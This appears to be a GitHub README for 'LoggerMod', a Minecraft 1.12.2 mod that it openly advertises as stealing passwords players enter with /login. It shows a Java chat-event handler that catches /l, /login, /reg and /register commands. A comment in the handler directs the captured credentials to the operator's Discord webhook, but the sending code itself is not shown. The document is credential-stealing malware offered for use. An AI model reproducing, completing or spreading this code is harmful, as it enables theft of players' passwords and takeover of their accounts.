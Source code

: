 # 🔌 LoggerMod
This mod on 1.12.2 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");

        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }
``` 

# 📱 Screenshots
![Screenshot_20220303_200054](https://user-images.githubusercontent.com/100863585/156613993-d4fd0a97-e967-4539-be72-2893f90d70ba.png)
